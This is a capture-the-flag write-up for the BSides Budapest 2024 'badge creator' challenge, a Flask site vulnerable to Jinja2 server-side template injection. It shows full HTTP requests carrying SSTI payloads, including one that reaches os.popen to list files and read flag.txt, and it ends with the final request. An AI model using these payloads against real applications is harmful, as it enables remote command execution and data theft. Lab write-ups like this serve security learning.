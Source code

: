 # Challenge Details
flag format: BSIDES{...}
## Description:
```
Our new intern's favorite programming language is Python. He has created a website where you can create a BSides Budapest badge with your own name. We hope that his code is secure, as there are also some important files on this server.

PS: Brute-force or fuzzing is not required to solve this challenge.

By kamee
https://badgecreator.ctf.bsides.hu  
```




## Solution:

Tried a bunch of stupid things, including lfi


As mention its python my first thought that  it was SSTI, so i tested the payload.
`${{7*7}}` gives u `49` as response and `${{7*'7'}}` give us `7777777`



so, I checked the config via


```
GET /badge?name={{%20config.items()%20}} HTTP/1.1
Host: badgecreator.ctf.bsides.hu
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=0, i
Connection: keep-alive
```
that gave me
```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 23 May 2024 13:43:57 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 2427


        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>BSidesBUD Badge Creator</title>
            <link rel="stylesheet" type="text/css" href="/static/card-style.css">
            <link rel="preconnect" href="https://fonts.googleapis.com">
            <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
            <link href="https://fonts.googleapis.com/css2?family=Libre+Barcode+39+Extended+Text&display=swap" rel="stylesheet">
        </head>
        <body>
            <div class="id-card">
                <div class="hole"></div>
                <div class="banner-top"><br>BSidesBUD 2024</div>
                <div class="details">
                    <div class="name"><p>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, None), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, None), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, None), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])<p></div>
                    <div class="title">Leet hacker</div>
                    <br><br><br><br><br>
                    <span style="font-family: 'Libre Barcode 39 Extended Text'; font-size: 55px;">7355608</span>
                </div>
                <div class="banner-bot">BSidesBUD</div>
            </div>
        </body>
        </html>
        

```



looking through

`dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, None), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, None), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, None), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)])`





Similarly using `{{config}}` gives u 

`<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}&gt`





so after reading this blog:

A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example (kleiber.me)



I tried the payload

`{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

and got the following:

```
app.py
flag.txt
requirements.txt
static
templates

```


so, I sent the following

```
GET /badge?name={{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}} HTTP/1.1
Host: badgecreator.ctf.bsides.hu
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=0, i
Connection: keep-alive

```

which of course failed so I URL encoded it and that worked

```
GET /badge?name={{request.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()}} HTTP/1.1
Host: badgecreator.ctf.bsides.hu
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=0, i
Connection: keep-alive


```


